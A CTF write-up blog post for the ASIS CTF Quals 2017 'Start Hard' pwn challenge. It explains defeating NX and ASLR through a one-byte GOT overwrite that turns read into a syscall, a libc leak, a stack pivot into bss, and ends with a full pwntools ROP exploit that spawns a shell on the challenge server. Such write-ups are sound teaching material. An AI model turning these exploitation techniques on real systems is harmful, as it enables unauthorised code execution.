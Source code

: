 ```yaml
---
layout: post
title: Start Hard - ASIS CTF Quals 2017
date:   2017-04-10 07:58:21 +1100
categories: posts
---
```


> I doubt it's harder.
>
> ‍‍‍‍nc 128.199.152.175 10001

*201 Pts, 43 solved, Pwning. [start_hard_c8b452f5aab9a474dcfe1351ec077a601fdf8249][asset]*

---

This was great little challenge, all it did was read 0x400 bytes into a buffer and returned 0.

So we have a buffer overflow, NX and ASLR enable, and only only a single libc function *read*. It's ropping time!

First of all we need a way to get a leak to defeat ASLR. *write* in libc is located close enough to *read* that we could overwrite just the last byte of the GOT entry and turn it into a call to *write*. This would allow us to leak anything, but afterward we would have to way to call *read* again to do anything useful.

Another option is to overwrite *read* to point to a *syscall*, that would give us greater control over what we could do:
{% highlight python %}
Dump of assembler code for function read:
   0x00007ffff7b04670 <+0>:	cmp    DWORD PTR [rip+0x2d20c9],0x0        # 0x7ffff7dd6740 <__libc_multiple_threads>
   0x00007ffff7b04677 <+7>:	jne    0x7ffff7b04689 <read+25>
   0x00007ffff7b04679 <+0>:	mov    eax,0x0
   0x00007ffff7b0467e <+5>:	syscall{% endhighlight %}

Overwriting one byte also has the nice side effect of setting *rax* to 1 which is what we need for a write syscall.

Now we have a leak and can get the libc base address, then we need to get *rax* to 0 to perform another *read*.

As the main function in binary returns 0, we can use that:

{% highlight python %}
   0x000000000040054b:	mov    eax,0x0
   0x0000000000400550:	leave
   0x0000000000400551:	ret{% endhighlight %}

The only downside is that it will do a *leave*, so the stack will be pivoted to whatever we overflowed the saved *rbp* to be. That's no problem, we just need to set *rbp* to point to some fixed writeable location and make sure we have setup our *rop* there. We can use somewhere in the *bss* and set it up before we overwrite the *read* got.

So we setup the rop in bss to call *read* and overwrite the new stack with *system*, and set *rdi* to */bin/sh* and we have a shell.

---
Here is the final exploit:

{% highlight python %}
#!/usr/bin/env python2

from pwn import *

write_offset =  0xf667e
bss =  0x601038 + 0x400
read_got = 0x601018

pop_rdi = p64(0x00000000004005c3) # pop rdi; ret;
pop2_rsi = p64(0x00000000004005c1) #: pop rsi; pop r15; ret;
eax_0 = p64(0x000000000040054b) # mov eax, 0; leave; ret;

read = p64(0x400400)
syscall = read


def rop1():
  rop = ""

  # read in stage2 rop
  rop += pop2_rsi + p64(bss) + p64(0)
  rop += read

  # overwrite 1 byte of read_got
  rop += pop2_rsi + p64(read_got) + p64(0)
  rop += read

  # read_got is now a syscall
  # rax == 1 from 1 byte read
  # write(1, read_got, 0x400)
  rop += pop_rdi + p64(1)
  rop += syscall

  # set rax to 0 to read syscall
  rop += eax_0

  return rop

def rop2():
  rop = ""
  rop += p64(bss) #rbp

  rop += pop_rdi + p64(0)
  rop += pop2_rsi + p64(bss+0x48) + p64(0)
  rop += read

  # setup "/bin/sh" arg to system
  rop += pop_rdi + p64(bss+0x48+16)

  return rop

def exploit():

  stage1_rop = rop1()
  p.sendline("A"*16 + p64(bss) + stage1_rop)
  log.info("First rop sent")
  pause()

  stage2_rop = rop2()
  p.send(stage2_rop)
  log.info("Second rop sent")
  pause()

  # one byte override of read_got to make it a syscall
  p.send("\x7e")
  log.info("Read GOT overwritten")

  leak1 = u64(p.recvn(8))
  leak2 = u64(p.recvn(8))

  libc.address = leak1 - write_offset

  log.info("write 0x%x"%leak1)
  log.info("start 0x%x"%leak2)
  log.info("libc 0x%x"%libc.address)

  # write system and setup /bin/sh in bss
  p.send(p64(libc.symbols["system"]) + p64(0) + "/bin/sh\x00")
  p.interactive()


if __name__ == "__main__":
  name = "./start_hard"
  binary = ELF(name)

  libc_name = "/lib/x86_64-linux-gnu/libc-2.23.so"
  libc = ELF(libc_name)

  context.arch = "amd64"

  if len(sys.argv) > 1:
    p = remote("128.199.152.175", 10001)
  else:
    p = process(name, env={})

  exploit()
{% endhighlight %}

[asset]: {{ site.url }}/assets/start_hard_c8b452f5aab9a474dcfe1351ec077a601fdf8249.zip
